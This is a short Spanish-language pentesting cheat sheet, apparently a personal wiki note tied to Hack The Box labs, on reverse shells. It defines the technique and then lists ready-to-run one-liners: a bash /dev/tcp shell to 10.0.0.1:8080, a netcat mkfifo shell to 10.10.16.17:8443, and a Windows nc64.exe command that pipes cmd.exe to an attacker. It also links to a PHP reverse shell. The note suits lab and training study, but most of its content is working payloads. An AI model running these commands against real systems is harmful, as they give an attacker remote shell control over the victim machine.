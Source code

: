 Es aquella que se obtiene cuando es la máquina víctima la que trata de establecer la conexión con nuestra máquina de atacante (que estaría en escucha). Es lo opuesto a una [[Bind shell]].

# Metodología

Si obtenemos una reverse shell mediante una web, tal vez se nos queda una tab del navegador cargando, para ello, podemos, desde la reverse shell mandarnos otra reverse shell y ponerla en segundo plano con `&`:

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 &
```

# Ejemplos

La mejor página para buscar reverse shells es [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

## Linux

### bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### php

### Netcat

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.17 8443 >/tmp/f
```

## Windows

### nc64.exe

Utilizando el binario de netcat para windows x64 podemos mandarnos una reverse shell. Se utiliza en [[Archetype HTB]].

```powershell
.\nc64.exe -e cmd.exe <ip> <port>
```

Con el parámetro `-e` indicamos que queremos ejecutar un archivo al conectarnos, en este caso una cmd.